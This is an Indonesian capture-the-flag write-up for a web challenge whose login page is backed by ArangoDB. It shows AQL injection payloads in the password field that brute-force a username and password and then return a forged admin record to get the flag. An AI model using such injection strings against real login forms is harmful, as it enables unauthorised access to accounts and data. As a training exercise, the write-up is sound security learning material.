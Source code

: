 # H!pster Startup


Halaman admin ada di /admin

Saat mencoba menginput tanda kutip (').
Pesan `AQL syntax error`. Setelah dilakukan googling ternyata itu adalah pesan error untuk `ArangoDB` yang merupakan database NoSQL.

asumsi query login yang digunakan
```mysql
FOR u in users
FILTER u.user == USER && u.passwd == PASSWD
RETURN u
```

Awal nya kami  melakukan brute force username dan password menggunakan query berikut

```mysql
user=admin&passwd=a' OR (u.user LIKE "tim%") RETURN u.user //

``````mysql
user=admin&passwd=a' OR (u.passwd LIKE "iamsoawesome%") RETURN u.user //
```

Didapatkan username : tim dan password iamsoawesome. Tapi saat login mengeluarkan pesan bahwa user tersebut bukan admin.

Oleh karena itu kami mencoba melakukan return role admin.

```mysql
user=admin&passwd=' OR (u.passwd LIKE "iamsoawesome%") RETURN {_id: "users/c", user: "admin", passwd: "admin", role: "admin"} //
```

Lalu akan memunculkan flag.
